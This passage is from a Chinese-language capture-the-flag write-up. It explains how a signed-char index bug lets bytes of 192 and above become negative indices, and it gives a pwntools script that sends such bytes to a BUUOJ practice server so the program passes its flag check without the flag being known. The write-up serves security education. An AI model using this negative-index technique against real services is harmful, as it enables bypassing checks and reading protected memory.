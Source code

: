 
再次运行一下c写的程序，发现只要我们输入192，char被作为索引时，会自动转换成int类型，而值为-64.依次类推，我们需要50个这样的索引，因为flag是50个字符。

我们用python脚本来实现一下这件事。

```python
from pwn import *
context.log_level='debug'
p=remote('node4.buuoj.cn',29002)
payload=""
for i in range(192,192+50):
    payload+='0'+chr(i)#第一次输入字符0，让value_1的值为0
p.recvuntil('guess> ')
p.sendline(payload)
p.interactive()

```

然后...

![image-20220411121346039](/upload/img/image-20220411121346039.png)


它提示你输入对了flag，**但是事实上我们压根输入的就不是flag**，只不过是通过输入一些非正常的数据，**产生了一个负数索引，然后利用这个索引去找到了flag，从而通过了检查**，**而我们是不知道flag的**。


